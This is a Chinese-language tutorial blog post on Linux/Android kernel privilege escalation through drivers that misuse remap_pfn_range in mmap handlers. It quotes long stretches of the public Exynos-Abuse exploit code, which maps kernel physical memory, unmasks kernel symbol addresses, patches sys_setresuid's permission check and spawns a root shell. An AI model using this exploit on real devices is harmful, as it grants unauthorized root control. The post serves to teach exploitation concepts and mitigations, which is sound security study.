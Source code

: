 ```yaml
---
layout: post
title: "Privilege Escalation in Kernel 101 - mmap"
date: 2014-03-14 20:39:36 +0530
comments: true
categories: 
---
```


Privilege Escalation 101
========================

mmap&remap_pfn_range
---------------

#漏洞成因
在一段时期,各个厂商经常出现的漏洞中其中之一就是通过mmap控制全部物理内存.而出现这个问题的原因就是驱动开发人员没有正确地对remap_pfn_range这个函数中的参数做处理.

[mmap man page](http://linux.die.net/man/2/mmap)

[remap_pfn_range 使用方法](http://www.makelinux.net/ldd3/chp-15-sect-2)

下面是mmap的linux API,它的作用是将指定地址和大小的内存映射到用户空间中以便程序进行内存操作,offset传入需要映射的物理地址偏移,length传入需要映射的长度.

```c
void *mmap(void *addr, size_t length, int prot, int flags,
           int fd, off_t offset);
```
**The mmap function asks to map length bytes starting  at offset  offset from  the  file  (or  other object) specified by the file descriptor fd into memory, preferably at address start.  This  latter  address  is  a hint  only,  and is usually specified as 0.  The actual place where the object is mapped is returned by mmap, and is never 0.**

mmap是用户空间对内核请求映射内存的一个接口,调用这个接口后如果相关驱动支持此操作,会实现一个响应mmap的函数,一般情况下会在这个响应函数中调用remap_pfn_range,下面是linux man page上对remap_pfn_range的一个简单示例：

```c
static int simple_remap_mmap(struct file *filp, struct vm_area_struct *vma)
{
    if (remap_pfn_range(vma, vma->vm_start, vm->vm_pgoff,
                vma->vm_end - vma->vm_start,
                vma->vm_page_prot))
        return -EAGAIN;

    vma->vm_ops = &simple_remap_vm_ops;
    simple_vma_open(vma);
    return 0;
}
```
如果这段代码被直接用到驱动上,问题就来了,因为vma中的参数是根据用户空间调用mmap时传入的参数构造而成.用户空间可以传入内核代码段的物理地址,并将其标识为可读写,从而修改内核空间的代码.
 
#保护机制

一个程序的内存空间可以分为两个部分,用户空间（user space）、内核空间（kernel space）,在正常情况下,操作系统中运行的程序只能够控制自身用户空间的内存,而内核空间是由操作系统控制,且运行在特权模式.一个程序的凭据（credential）保存了自身uid、权限等信息,而凭据储存在内核空间,所以运行在用户空间的普通程序无法修改自身的凭据,这就是linux的权限控制的一部分,它保证了操作系统的安全性.

```
|--------------|
| kernel space |
|--------------|
| user space   |
|--------------|
```
##获取全部物理地址的操作能力后提权思路
由于系统中存在能够在用户空间操作所有内存（包括内核地址内存）时,普通程序通过修改内核代码段的机器码即可让内核执行任意命令,从而达到提权的目的.

  
#具体案例Exynos-Abuse 
Exynos-Abuse是其中一个最典型的案例,而且这个漏洞的利用代码也早早地公布了出来,从公布的利用代码来对这类漏洞的利用方式进行分析是最有效的方法.

[Exynos-Abuse完整利用代码](https://raw.githubusercontent.com/mwrlabs/mercury-modules/master/metall0id/root/exynosmem/exynos-abuse/jni/exynos-abuse.c)
##获取全部物理地址的操作能力
根据之前介绍过的一样,这个漏洞的利用方式第一步就是**获取全部物理地址的操作能力**,也就是下面这段代码做的工作：

程序打开有漏洞的驱动后,通过mmap调用了内存映射的方法,参数中length和PHYS_OFFSET是至关重要的两个参数.

```c
  #define PHYS_OFFSET 0x40000000
    ......
  int page_size = sysconf(_SC_PAGE_SIZE);
  int length = page_size * page_size;
    ......
    /* open the door */
  fd = open("/dev/exynos-mem", O_RDWR);//打开有漏洞的驱动
  if (fd == -1) {
    printf("[!] Error opening /dev/exynos-mem\n");
    exit(1);
  }

    /* kernel reside at the start of physical memory, so take some Mb */
  paddr = (unsigned long *)mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_SHARED, fd, PHYS_OFFSET);//调用驱动的mmap对应接口,传入kernel text的起始物理地址
  tmp = paddr;
  if (paddr == MAP_FAILED) {
     printf("[!] Error mmap: %s|%08X\n",strerror(errno), i);
     exit(1);
  }
```
要定位到想要修改的函数地址就需要获取内核符号表,一般情况下在执行打印内核符号表的函数时由于/proc/sys/kptr_restrict的限制,所有符号表地址都会打印为0,.在内核数据段中寻找字符串"%pK %c %s\n",并将其修改为"%p %c %s\n",可以绕过此限制将内核函数的正确地址打印出来.

```c
    /*
     * search the format string "%pK %c %s\n" in memory
     * and replace "%pK" by "%p" to force display kernel
     * symbols pointer
     修改内核符号表打印函数中的"%pK %c %s\n",并将其修改为"%p %c %s\n"
     */
    for(m = 0; m < length; m += 4) {
        if(*(unsigned long *)tmp == 0x204b7025 && *(unsigned long *)(tmp+1) == 0x25206325 && *(unsigned long *)(tmp+2) == 0x00000a73 ) {
            printf("[*] s_show->seq_printf format string found at: 0x%08X\n", PAGE_OFFSET + m);
            restore_ptr_fmt = tmp;
            *(unsigned long*)tmp = 0x20207025;//找到格式化字符串以后修改之
            found = true;
            break;
        }
        tmp++;
    }

    if (found == false) {
        printf("[!] s_show->seq_printf format string not found\n");
        exit(1);
    }
```
拿到内核符号表后就可以定位需要修改的系统调用setresuid的地址了,查找地址的方法为读取/proc/kallsyms的值,修改上面的格式化字符串后再访问改文件时,获取到的地址已经是正确的内核地址.

```c
    found = false;

    /* kallsyms now display symbols address */       
    kallsyms = fopen("/proc/kallsyms", "r");
    if (kallsyms == NULL) {
        printf("[!] kallsysms error: %s\n", strerror(errno));
        exit(1);
    }

    /* parse /proc/kallsyms to find sys_setresuid address */
    while((ptr = fgets(line, 512, kallsyms))) {
        str = strtok(ptr, " ");
        addr_sym = strtoul(str, NULL, 16);
        index = 1;
        while(str) {
            str = strtok(NULL, " ");
            index++;
            if (index == 3) {
                if (strncmp("sys_setresuid\n", str, 14) == 0) {
                    printf("[*] sys_setresuid found at 0x%08X\n",addr_sym);
                    found = true;
                }
                break;
            }
        }
```
找到setresuid的地址后开始搜索cmp r0,#0的机器码,找到后通过把setresuid中的cmp r0,#0,修改为cmp r0,#1将权限检查的逻辑取反.

```c
        if (found) {
            tmp = paddr;
            tmp += (addr_sym - PAGE_OFFSET) >> 2;
            for(m = 0; m < 128; m += 4) {
                if (*(unsigned long *)tmp == 0xe3500000) {
                    printf("[*] patching sys_setresuid at 0x%08X\n",addr_sym+m);
                    restore_ptr_setresuid = tmp;
                    *(unsigned long *)tmp = 0xe3500001;
                    break;
                }
                tmp++;
            }
            break;
        }
    }
```
此时内核代码中setresuid的权限检查逻辑已经取反,之前没有权限执行setresuid的程序现在可以执行成功了.

```c
    fclose(kallsyms);

    /* to be sure memory is updated */
    usleep(100000);

    /* ask for root */
    result = setresuid(0, 0, 0);

    /* restore memory */
    *(unsigned long *)restore_ptr_fmt = 0x204b7025;
    *(unsigned long *)restore_ptr_setresuid = 0xe3500000;
    munmap(paddr, length);
    close(fd);

    if (result) {
        printf("[!] set user root failed: %s\n", strerror(errno));
        exit(1);
    }

    /* execute a root shell */
    execve (cmd[0], cmd, env);

  return 0;
}
```
当execve函数运行时该程序的uid已经设置为0,如果执行的命令为"/system/bin/sh",将会看到命令行的用户由"shell$"变成了"root#".
#小结
以上的例子是在32位系统中没有开启内核代码只读的情况下才能够利用成功,由于攻防的演进,后面Android系统增加了很多诸如内核代码只读、PXN等安全功能,使得漏洞的完美利用更加困难,但通过此例子可以很好的了解内核提权的步骤以及思路.
